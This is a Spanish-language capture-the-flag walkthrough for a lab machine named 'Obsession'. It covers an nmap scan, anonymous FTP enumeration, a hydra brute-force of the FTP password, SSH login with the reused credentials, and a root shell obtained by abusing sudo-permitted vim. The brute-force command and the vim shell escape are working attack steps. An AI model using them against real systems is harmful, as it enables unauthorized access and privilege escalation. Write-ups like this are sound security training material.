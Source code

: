 # Obsession
## 1. Reconocimiento de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones. 

```bash
nmap -sC -sV --open <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `21/tcp open ftp vsftpd 3.0.5`: El puerto 21 está abierto y ejecuta el servidor FTP vsftpd versión 3.0.5. El escaneo también indica que el **login anónimo está permitido** (`ftp-anon: Anonymous FTP login allowed`).
*   `22/tcp open ssh OpenSSH 9.6p1 Ubuntu`
*   `80/tcp open http Apache httpd 2.4.58 ((Ubuntu))`

La posibilidad de acceso FTP anónimo es una pista importante para el acceso inicial.

## 2. Enumeración Web

Al visitar la página web (`http://<IP_DEL_OBJETIVO>`) y revisar su contenido o código fuente, encontramos una pista: "-- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente --". 

En la página aparece varias veces `russoski`  por lo que es un posible usuario.
## 3. Enumeración FTP Anónima

### 2.1. Listado de Archivos FTP

Al conectarnos al FTP de forma anónima, observamos dos archivos:

*   `chat-gonza.txt`
*   `pendientes.txt`

Descargamos ambos archivos para analizarlos con el comando `get`.

### 2.2. Análisis de Archivos

*   **`chat-gonza.txt`**: Contiene una conversación con tres posibles usuarios: russoski y gonza y Nagore
*   **`pendientes.txt`**: `Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos permisos habilitados que no son del todo seguros..`


## 4. Obtención de Credenciales y Acceso Inicial

Con el nombre de usuario `russoski` y la pista de reutilización de contraseñas, intentamos un ataque de fuerza bruta contra el servicio FTP para obtener la contraseña.

### 4.1. Fuerza Bruta con Hydra (FTP)

Utilizamos `hydra` para intentar adivinar la contraseña del usuario `russoski` en el servicio FTP.

```bash
hydra -l russoski -P /path/to/wordlist/rockyou.txt -u ftp://<IP_DEL_OBJETIVO>
```

**Resultado Clave:**

*   `[21][ftp] host: <IP_DEL_OBJETIVO> login: russoski password: iloveme`

Esto nos proporciona la contraseña para el usuario `russoski`: **iloveme**.

vemos varios archivos y una foto, los obtenemos con el comando `get` y los inspeccionamos. No hay información relevante. Utilizamos steghide y exiftool para vuscar información oculta dentro de la imagen, pero sin éxito.
### 4.2. Conexión SSH con Credenciales Reutilizadas

Dado que el usuario `russoski` reutiliza contraseñas, intentamos usar las mismas credenciales (`russoski:iloveme`) para acceder al servicio SSH.

```bash
ssh russoski@<IP_DEL_OBJETIVO>
# Contraseña: iloveme
```

Hemos obtenido acceso inicial al sistema.

## 5. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `russoski`, el objetivo es escalar privilegios a `root`.

### 5.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `russoski` con `sudo` sin necesidad de contraseña. Esto se hace con el comando :
```bash
sudo -l
```

**Resultados Clave:**

*   `User russoski may run the following commands on ...: (root) NOPASSWD: /usr/bin/vim`

Esto significa que el usuario `russoski` puede ejecutar el binario `/usr/bin/vim` como `root` sin necesidad de introducir su contraseña. 

### 5.2. Abuso de Vim con Sudo para Obtener Shell de Root

Consultamos [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo) para la técnica específica.

Para obtener un shell de `root`, ejecutamos `vim` con un comando que nos permita ejecutar un shell directamente.

```bash
sudo -u root /usr/bin/vim -c ":!/bin/sh"
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```
